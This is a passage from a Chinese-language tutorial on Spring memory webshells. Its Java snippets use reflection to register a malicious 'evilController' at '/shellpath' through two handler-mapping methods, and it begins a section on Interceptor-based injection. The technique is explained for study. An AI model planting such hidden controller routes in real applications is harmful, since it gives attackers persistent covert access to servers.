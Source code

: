 ```java
            }
        };
    }
}


```  
使用如果使用SpringBoot 2.6.0或更高版本会有lookupPath错误.
2. 针对以前的映射器可以通过以下思路,注意该方式需要在`evilController`使用RequestMapping指定对应方法的路径.  
```java
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", new evilController());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/shellpath", "dynamicController");
```
3. 针对新的映射器也可以调用`detectHandlerMethods`来注册,该方式也需要在`evilController`使用RequestMapping指定对应方法的路径.
```java
context.getBeanFactory().registerSingleton("dynamicController", new evilController());
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```  
原理都是知道正常controller注册的流程后,直接反射调用正常流程中某一个步骤构造对应参数调用即可.  
![](img/2023-01-30-17-58-18.png)
#### Interceptor 
Interceptor即Spring中的拦截器,类似于Servlet中的Filter,而Interceptor针对Controller进行拦截,在指定的Controller执行之前会先调用Interceptor.
在HandlerInterceptor接口中,其提供了如下几个接口.  